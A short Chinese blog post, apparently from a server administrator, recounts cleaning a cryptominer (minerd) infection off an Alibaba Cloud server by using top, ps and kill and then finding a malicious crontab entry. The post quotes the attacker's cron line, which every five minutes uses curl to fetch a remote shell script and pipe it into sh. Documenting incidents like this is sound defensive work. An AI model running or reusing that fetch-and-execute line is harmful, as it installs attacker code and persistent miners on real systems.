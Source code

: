 # 服务器被攻击小计

今天看到阿里云的控制台 cpu始终使用率为100%,很明显不正常
top 查看进程
进程里面 minerd cpu使用率99% 应该是被别人挂马了
ls -l /proc/$PID/exe
![请输入图片描述][1]
(ps -ef | grep minerd)

kill $PID;
//结果过一会又出现了
![请输入图片描述][2]
再杀进程 然后chmod 000 /opt/minerd

这种木马肯定还有别的东西来保证他的运行,想到了定时任务
crontab -e 查看了一下
![请输入图片描述][3]
果然还是存在定时任务的 每五分钟执行一次 先把定时任务删除掉
*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh
去这个地址下载shell
下面是内容![请输入图片描述][4]

原因正在排查,很可能是因为web服务器为了省事用的root用户,现已全修改为www用户


  [1]: http://img.justwkj.com/20190529092037.png
  [2]: http://img.justwkj.com/20190529092047.png
  [3]: http://img.justwkj.com/20190529092056.png
  [4]: http://img.justwkj.com/20190529092105.png
